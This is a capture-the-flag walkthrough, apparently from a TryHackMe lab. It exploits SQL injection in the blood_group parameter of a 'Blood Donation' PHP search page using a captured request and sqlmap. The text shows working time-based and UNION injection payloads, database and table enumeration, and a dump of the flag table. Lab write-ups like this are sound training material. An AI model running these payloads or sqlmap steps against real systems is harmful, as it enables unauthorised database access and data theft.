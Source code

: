 # Blood Donation

- From directory enumeration we find a creepy `/blood` directory

- Lets find the user of the db
- From burp suite we have done a post request

```sh
└─$ cat sql.txt 
POST /blood/nl-search.php HTTP/1.1
Host: 10.10.27.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
Origin: http://10.10.27.3
Connection: close
Referer: http://10.10.27.3/blood/nl-search.php
Cookie: PHPSESSID=0dbfv9iasvci0o2vn9r3t93sd5
Upgrade-Insecure-Requests: 1

blood_group=B%2B                                                                                                         
```
- `blood_group=` seem the vulnerable parameter
- I have copied the burp proxies request in `sql.txt` in my machine

1. `sqlmap -r sql.txt -p blood_group --dbs`
```sh
sqlmap -r sql.txt -p blood_group --dbs

Parameter: blood_group (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blood_group=B+' AND (SELECT 7359 FROM (SELECT(SLEEP(5)))yBVR) AND 'KZNt'='KZNt

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: blood_group=B+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x71706b7671,0x59766366485a446b4e6262556569746e63454e427a664b525074725343746c784c564545784a6f4c,0x7170766a71),NULL-- -
---
[09:22:42] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[09:22:44] [INFO] fetching database names
available databases [6]:
[*] blood
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] test

```

2. `sqlmap -r sql.txt -p blood_group --current-user`

```sh
└─$ sqlmap -r sql.txt -p blood_group --current-user

current user: 'root@localhost'

```
3. `sqlmap -r sql.txt -D blood --tables`

```sh
└─$ sqlmap -r sql.txt -D blood --tables            
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.3#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


Database: blood
[3 tables]
+----------+
| blood_db |
| flag     |
| users    |
+----------+

```

4. `sqlmap -r sql.txt -D blood -T flag --dump`

```sh
└─$ sqlmap -r sql.txt -D blood -T flag --dump


        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.8.3#stable}
|_ -| . [(]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


+----+---------------------+--------+
| id | flag                | name   |
+----+---------------------+--------+
| 1  | thm{sqlm@p_is_L0ve} | flag   |
+----+---------------------+--------+


```
